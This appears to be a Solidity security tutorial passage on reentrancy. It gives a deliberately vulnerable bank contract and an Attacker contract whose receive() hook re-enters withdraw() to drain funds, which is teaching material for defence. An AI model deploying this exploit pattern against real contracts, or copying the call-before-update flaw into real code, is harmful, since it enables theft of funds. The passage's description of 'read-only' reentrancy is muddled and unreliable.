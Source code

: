 EVM-Specific Vulnerabilities and Exploits
---
### Reentrancy
**Reentrancy** is a vulnerability where a function in a smart contract makes an external call to another untrusted contract. The untrusted contract can then make a recursive call back to the original function before the initial invocation is complete, potentially leading to unexpected behavior and theft of funds.

**Tricky Parts**: The vulnerability often arises when the state of the contract is not updated *before* the external call. The `call` function in Solidity is particularly dangerous as it forwards all remaining gas, giving the external contract ample resources to perform a reentrant attack.

**Use Cases & Edge Cases**:
* **Single-Function Reentrancy**: The most common form, where a function is called repeatedly.
* **Cross-Function Reentrancy**: An attacker calls a different function in the vulnerable contract during the reentrant call.
* **"Read-only" Reentrancy**: A seemingly benign external call that only reads state can be exploited if the called contract has a fallback function that then calls a state-changing function in the original contract.

**Code Snippet (Vulnerable)**:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract VulnerableBank {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }
}

contract Attacker {
    VulnerableBank public vulnerableBank;

    constructor(address bankAddress) {
        vulnerableBank = VulnerableBank(bankAddress);
    }

    // Fallback function is executed when Ether is sent to this contract
    receive() external payable {
        if (address(vulnerableBank).balance >= 1 ether) {
            vulnerableBank.withdraw();
        }
    }

    function attack() public payable {
        require(msg.value >= 1 ether);
        vulnerableBank.deposit{value: msg.value}();
        vulnerableBank.withdraw();
    }
}
```
